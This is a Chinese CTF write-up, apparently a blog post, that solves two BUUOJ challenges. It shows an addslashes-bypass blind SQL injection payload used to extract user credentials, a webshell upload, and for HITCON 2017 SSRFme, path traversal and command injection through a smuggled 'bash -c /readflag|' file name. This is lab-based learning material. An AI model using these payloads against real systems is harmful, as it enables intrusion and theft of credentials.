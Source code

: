 <p style="color: cyan;font-size: 20px;">源码分析</p>

<li>GET方式传入变量id的值，若没有则为1</li>
<li>GET方式传入变量path的值，若没有则为空</li>
<li>addslashes() 函数返回在预定义字符之前添加反斜杠的字符串，单引号（'）、双引号（"）、反斜杠（\）</li>
<li>str_replace()函数将两个变量内的\0、%00、\'、'都替换为空</li>
<li>将变量$id与$path拼接进SQL语句</li>

也就是说，`\\0`在传入变量$id的值后，首先被转义为`\0`，再经过`addslashes()`函数的处理，变量`$id="\\0"`，再由`str_replace()`函数的替换，最终变为`\`。

payload:`?id=\\0&path=or 1=if(length(database())>1,1,-1)%23`

![upload successful](./images/pasted-449.png)
正常回显

![upload successful](./images/pasted-450.png)
使用脚本爆出库名，判断用户信息应该在users表中，继续爆出列名：

`注：`因为过滤了`'`单、`"`双引号，所以需要将字符串转换成十六进制：`users -> 0x7573657273`

![upload successful](./images/pasted-451.png)
得到列名：`username、password`。接下来就是常规的盲注，需要获取用户名和密码：

![upload successful](./images/pasted-452.png)

![upload successful](./images/pasted-453.png)
成功得到username和password

![upload successful](./images/pasted-454.png)
成功登录

![upload successful](./images/pasted-455.png)
使用phtml成功上传，但是不知道为什么连接不上，看网上师傅的用文件名写一句话，成功上传连接，拿下flag

# [HITCON 2017]SSRFme1

![upload successful](./images/pasted-456.png)
上来就是代码审计

则目录$sandbox为sandbox/md5(orange111.73.46.229:80)即：sandbox/864300xxxxxxxxxxcc4523ef49c50223

GET ./可以查看当前路径，GET …/可以查看上一级路径，于是先：`http://0ba28389-bff6-48a1-952c-cfd44f67bfb3.node3.buuoj.cn/?url=../../../../../../&filename=aaa`

然后访问aaa：
`http://1c2ae46f-4e1e-4987-bb41-072e27d42dd7.node4.buuoj.cn:81/sandbox/2eeed2f9aeae6311b507ada8fb98809e/aaa`

![upload successful](./images/pasted-457.png)
`
首先得满足前面的文件存在, 才会继续到open语句, 所以在执行命令前得保证有相应的同名文件:
?url=&filename=bash -c /readflag| 先新建一个名为“bash -c /readflag|”的文件，用于之后的命令执行
?url=file:bash -c /readflag|&filename=aaa 再利用GET执行bash -c /readflag保存到111文件
访问sandbox/md5/aaa（得到flag）`
![upload successful](./images/pasted-458.png)
这题真的难，拿下flag，留下大佬的wp：<a href="https://blog.csdn.net/qq_45521281/article/details/105868449">perl脚本中GET命令执行漏洞（[HITCON 2017]SSRFme）</a>
